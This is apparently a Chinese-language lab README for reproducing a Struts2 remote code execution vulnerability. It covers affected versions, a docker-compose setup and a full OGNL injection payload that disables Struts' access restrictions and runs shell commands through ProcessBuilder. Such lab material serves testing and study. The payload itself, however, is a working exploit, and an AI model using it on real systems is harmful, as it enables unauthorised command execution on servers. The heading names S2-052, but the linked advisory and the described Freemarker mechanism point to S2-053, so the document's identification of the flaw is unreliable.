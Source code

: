# S2-052 远程代码执行漏洞

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情: 

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 测试环境搭建

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

